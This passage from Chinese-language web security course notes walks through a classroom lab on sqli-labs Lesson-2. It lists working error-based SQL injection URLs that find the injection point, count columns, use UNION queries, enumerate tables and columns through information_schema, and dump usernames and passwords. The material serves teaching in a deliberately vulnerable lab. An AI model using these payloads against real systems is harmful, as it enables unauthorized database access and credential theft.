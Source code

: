 * 确认漏洞注入点存在
    * 有报错回显
        * 枚举/猜解：列数 --> 数据库版本 --> 表名 --> 列名 --> 具体值
    * 无报错回显 --> SQL 盲注
        * 利用 SQL 代码延迟执行时间差
        * 利用 SQL 代码执行返回结果差异制造页面渲染结果差别

---

## 课内动手实验 {id="sqli-inclass-exp"}

利用 `sqli-labs` 里的 `Lesson-2 GET - Error based - Intiger based` 学习 `有报错回显` 经典 SQL 注入方法。

```bash
# 1. 判断注入点是否存在

http://192.168.56.144:7080/Less-2/?id=2'

# 2. 枚举字段数

http://192.168.56.144:7080/Less-2/?id=2 order by 1
http://192.168.56.144:7080/Less-2/?id=2 order by 2
http://192.168.56.144:7080/Less-2/?id=2 order by 3
# 4 时报错，说明当前查询对应的结果集数量（如果是单表查询则说明当前表的列数）为 3
http://192.168.56.144:7080/Less-2/?id=2 order by 4

# 3. 检查是否支持 union 查询
# 第一次页面返回结果无变化
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,2,3 -- 
# 第二次页面返回结果原先 name 字段显示 2 password 字段显示 3
# 说明返回结果集合的第2和第3个字段值分别对应在这 2 个位置上回显输出
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,2,3 limit 1,1 -- 

# 4. 获取数据库版本信息、数据库连接权限和当前数据库实例名
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,concat(version(),0x3a,user(),0x3a,database()),3 limit 1,1 -- 

# 5. 获取表名
# mysql < 5 只能靠字典爆破方式获取表名和列名
# mysql >= 5 可以通过查询系统库 information_schema 获取
# 以下逐一枚举系统中所有表名
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,table_name,3 from information_schema.tables where table_schema='security' limit 1,1 -- 
...
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,table_name,3 from information_schema.tables where table_schema='security' limit 4,1 -- 

# 6. 查询列名
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,column_name,3 from information_schema.columns where table_name='users'  limit 1,1 -- 
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,column_name,3 from information_schema.columns where table_name='users' limit 2,1 -- 
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,column_name,3 from information_schema.columns where table_name='users' limit 3,1 -- 

# 7. 获取表内数据
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,concat(id,0x3a,username,0x3a,password),3 from users limit 1,1 -- 
http://192.168.56.144:7080/Less-2/?id=2 union all select 1,concat(id,0x3a,username,0x3a,password),3 from users limit 2,1 -- 
...

# TODO 总结以上手工测试过程，编写自动化脚本
```
